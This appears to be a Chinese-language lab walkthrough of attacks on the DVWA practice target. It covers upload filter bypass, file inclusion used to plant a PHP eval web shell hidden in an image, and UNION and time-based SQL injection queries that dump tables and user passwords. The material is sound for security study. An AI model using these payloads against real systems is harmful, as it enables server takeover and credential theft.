

# Web Security

## dvwa靶机

### 上传漏洞

####低安全等级

因为服务器没有什么过滤条件直接上传一句话，菜刀链接就可以了。

#### 中安全等级

服务器对**媒体类型**进行了过滤，我们将`Content-Type: application/octet-stream`类型改为`image/jpeg`就可以绕过了。

#### 高安全等级

TODO

### 文件包含漏洞

#### 低安全等级

远程文件包含：

①制作图片马：

使用二进制的打开工具打开图片，比如说`010Editor`,在图片最末尾添加

`<?php fputs(fopen("shell.php","w"),'<?php @eval($_POST["pass"]);?>')?>`

意思是将一句话木马写到`shell.php`中。



②在含有包含漏洞的地方，将图片包含进来`http://192.168.42.128/dvwa/vulnerabilities/fi/?page=自己的远程服务器/uploads/cc.jpg`

这一步就执行了一句话木马，在`vulnerabilities/fi/`目录下生成了`shell.php`

③最后菜刀链接。

#### 中安全等级

这个等级把`http://`和`http:s//`替换成了空字符串。

**第一种方法：**

我们可以构造类似这种请求进行远程文件包含。

`http://192.168.42.128/dvwa/vulnerabilities/fi/?page=http:http:////www.baidu.com`

**第二种方法：**

本地文件包含：

和远程文件包含相比，本地文件包含需要先上传文件到目标机器上。

①制作图片马：同上

②在含有包含漏洞的地方，将图片包含进来`http://192.168.42.128/dvwa/vulnerabilities/fi/?page=../../uploads/cc.jpg`

需要知道上传文件的路径，一般是相对路径。

#### 高安全等级

### SQL注入

####普通注入

首先输入单引号，发现语句执行了，说明存在sql注入。

`1' union select 1，2` 测试，发现有两列

然后进行注入。

```sql
# 查所有表名
1' union select table_name,table_schema from information_schema.tables #
 
# 查某个表的所有列名
1' union select column_name,2 from information_schema.columns where table_name ='users' #

# 查询表中的数据
1'  union select user,password from users #

# 多列都显示
1'  union select password,concat(user," ", first_name," ",last_name) from users #
```

#### 盲注

`1' and sleep(3)  #`

如果发现网页在发请求（在转），那么此处就有漏洞。

然后就和普通注入一样了。